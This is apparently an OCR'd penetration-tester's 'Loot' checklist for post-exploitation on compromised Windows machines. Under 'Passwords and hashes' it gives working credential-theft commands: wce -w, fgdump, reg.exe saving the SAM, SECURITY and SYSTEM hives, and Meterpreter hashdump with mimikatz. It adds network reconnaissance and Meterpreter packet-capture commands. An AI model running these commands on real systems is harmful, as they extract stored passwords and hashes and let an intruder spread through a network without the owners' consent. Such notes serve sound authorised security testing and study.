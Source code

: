

------------------------------------------------------------------------
----------------------------- LOOT LOOT LOOT LOOT -------------------
------------------------------------------------------------------------


## Loot

- Proof:
- Network secret:
- Password and hashes:
- Dualhomed:
- Tcpdump:
- Interesting files:
- Databases:
- SSH-keys:
- Browser:

### Proof

### Network secret

### Passwords and hashes

```
wce32.exe -w
wce64.exe -w
fgdump.exe

reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```

### Dualhomed

```
ipconfig /all
route print

# What other machines have been connected
arp -a
```

### Tcpdump

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```
